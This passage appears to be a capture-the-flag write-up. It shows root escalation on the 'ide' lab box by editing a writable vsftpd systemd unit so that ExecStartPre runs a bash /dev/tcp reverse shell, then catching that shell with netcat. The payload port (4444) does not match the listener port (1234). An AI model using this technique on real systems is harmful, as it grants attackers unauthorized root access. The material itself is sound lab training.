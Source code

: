```terminal
sudo /usr/sbin/service vsftpd restart
```
we need to find a way to use this and get root
i found a POC of how we can use this to get root access 

[Sudo Service Privilege Escalation](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-service-privilege-escalation)

so all we have to do is look for the configuration file for vsftpd and check if we have write access 

```terminal
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```
now we should change the "ExecStartPre" variable and make it point to our reverse shell

the file should look like this 
```terminal
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'

[Install]
WantedBy=multi-user.target
```
now we should reload the systemd state
```terminal
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.                                                                                                                                                                                     
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
```
and now if we run the command we should get a reverse shell as root in our listener 

```terminal
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.11.123.194] from (UNKNOWN) [10.10.4.124] 33098
bash: cannot set terminal process group (2997): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# cd /root
cd /root
root@ide:/root# ls -la
ls -la
total 40
drwx------  6 root root 4096 Jun 18  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
lrwxrwxrwx  1 root root    9 Jun 18  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jun 18  2021 .cache
drwx------  3 root root 4096 Jun 18  2021 .gnupg
drwxr-xr-x  3 root root 4096 Jun 18  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
```